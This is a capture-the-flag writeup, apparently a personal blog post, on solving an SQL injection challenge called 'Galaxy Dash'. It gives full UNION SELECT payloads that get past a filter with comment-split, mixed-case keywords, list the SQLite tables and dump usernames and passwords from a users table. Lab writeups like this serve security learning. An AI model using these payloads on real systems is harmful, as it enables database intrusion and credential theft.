OSCP · OSWP · PWPP · PWPA · PAPA · EnCE · Linux+ · LPIC-1 · Network+ · Security+ · Pentest+ · eJPT · eWPT · BSc · PGCert
Galaxy Dash writeup (SQLi)
Step 1: Register and proxy traffic
As the title says, register & proxy. Then go over to the Deliveries tab.

Step 2: Interesting traffic
This stood out to me. As soon as I hit the delivery page, there was a ?limit=5 prior to this hit, and when I hit “Pending”, I thought that this could be SQLi related as it was pulling information from the database. It seemed like a good place to begin:

Step 3: Burp community + mac
I was on burp community…on a mac. I didn’t have anything more fancy. So we’d have to go at it manually. A single quote broke the syntax and resulted in a 500 error:

Step 4: 400 Bad request
Next, I got a 400 bad request (see next step for the fix):

URL encoding of the same payload gave me a 200 OK:

Step 5: UnIoN SeLeCt
I got a 500 error and I’d tried some ‘or’ commands and it didn’t seem to play well. So at this point, I went off to Portswigger to look at WAF bypasses.

Portswigger said that /**/ can be “inserted within keywords themselves, which provides another means of bypassing some input validation filters while preserving the syntax of the actual query: SEL/**/EC”
This sounded worth a try. So, combining it with camel case (which now, I’m not sure is even necessary, but hey, this is what I did) I had the following payload. But… it resulted in a 500 error (note the double dash at the end. medium.com doesn’t play well with double dashes):
GET /api/bookings?status=’/**/uNiOn/**/sElEcT/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 —

26 was the magic number of columns before I got a 200 ok:

Step 6: sqlite_version() fail
I couldn’t enumerate for sqlite_version or @@version. Neither worked:

So I went for the ‘name’ column in the sqlite_master table and show type=’table’ which would filter the results to only show tables (not indexes or other objects)
GET /api/bookings?status=’/**/uNiOn/**/sElEcT/**/name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26/**/fRoM/**/sqlite_master/**/wHeRe/**/type=’table’ —

Step 7: Dump
I changed column 1 back to 1 (was ‘name’ in previous step) and then column 6,7 to username,password respectively and hit send, which resulted in the username / flag being displayed in the response.
Final payload:
GET /api/bookings?status=’/**/uNiOn/**/sElEcT/**/1,2,3,4,5,username,password,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26/**/fRoM/**/’users’ —

Thanks for reading!
🍺 Quick message to readers: if my writeups help you, please consider a small donation to my buymeacoffee link here. This is not required but is very much appreciated! 🍺